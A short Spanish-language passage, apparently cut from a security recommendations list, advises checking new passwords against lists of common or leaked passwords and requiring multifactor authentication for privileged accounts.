>  - Verificar las contraseñas a insertar contra bases de datos de contraseñas comunes/filtradas antes de registrar una clave.
>  - Implementar medidas de autenticación multifactor para cuentas con privilegios elevados.


